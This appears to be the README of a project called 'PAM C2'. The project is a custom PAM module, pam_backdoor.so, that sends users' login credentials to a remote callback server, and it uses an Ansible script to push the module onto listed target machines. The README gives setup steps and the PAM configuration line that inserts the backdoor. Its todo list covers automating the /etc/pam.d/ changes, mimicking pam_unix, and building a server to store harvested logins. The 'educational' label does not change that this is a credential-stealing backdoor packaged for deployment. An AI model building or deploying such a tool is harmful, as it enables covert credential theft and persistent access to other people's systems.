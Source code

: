 # PAM C2 (for educational purposes) (better name TBD)
Custom PAM module that sends login information to a remote server (built for educational purposes to understand how PAM works on the backend)

## Setup:
1. Write all target IP addresses in inventory.ini under the [targets] section
2. Run ./setup.sh <Callback IP> <Port> as root from the host machine

## Host Requirements and Prerequities:
Host must be a Linux distribution (Debian-based/RedHat-based for now) capable of installing and running Ansible

Install Ansible on the host machine
- Ubuntu: `sudo apt update && sudo apt install software-properties-common && sudo add-apt-repository --yes --update ppa:ansible/ansible && sudo apt install ansible`
- RedHat Distributions: `sudo dnf install ansible`
- Kali Linux: `sudo apt install ansible`

## Current Progress
- Running setup.sh will setup and copy over compiled module to target operating systems into the correct directory (only tested on Ubuntu so far)

## Current Known Issues
- Including the module through `auth optional {PAM_MODULE_DIR}/pam_backdoor.so` before the pam_permit.so line works on sending correct login information to the remote server, but it breaks the login screen for some reason (can still login to the machine through ssh)

## Todo
- Automate use of module in /etc/pam.d/
- Include a way to authenticate the same way pam_unix.so does
- Create default server-side server with database
- Customizable setup script (output formats, special servers, delivery types)
- Include Arch/SUSE category of target machine (should same as RedHat)